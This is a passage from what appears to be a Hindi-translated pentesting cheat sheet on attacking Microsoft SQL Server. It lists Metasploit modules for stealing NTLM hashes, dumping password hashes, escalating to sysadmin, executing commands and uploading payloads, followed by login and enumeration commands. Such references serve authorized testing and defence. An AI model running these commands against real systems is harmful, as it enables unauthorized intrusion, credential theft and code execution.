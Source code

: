 #### Metasploit (क्रेड्स की आवश्यकता)
```bash
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```
### [**ब्रूट फोर्स**](../../generic-methodologies-and-resources/brute-force.md#sql-server)

### मैनुअल एन्यूमरेशन

#### लॉगिन
```bash
# Using Impacket mssqlclient.py
mssqlclient.py [-db volume] <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
## Recommended -windows-auth when you are going to use a domain. Use as domain the netBIOS name of the machine
mssqlclient.py [-db volume] -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>

# Using sqsh
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
## In case Windows Auth using "." as domain name for local user
sqsh -S <IP> -U .\\<Username> -P <Password> -D <Database>
## In sqsh you need to use GO after writting the query to send it
1> select 1;
2> go
```
#### सामान्य सूचीकरण
```sql
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
```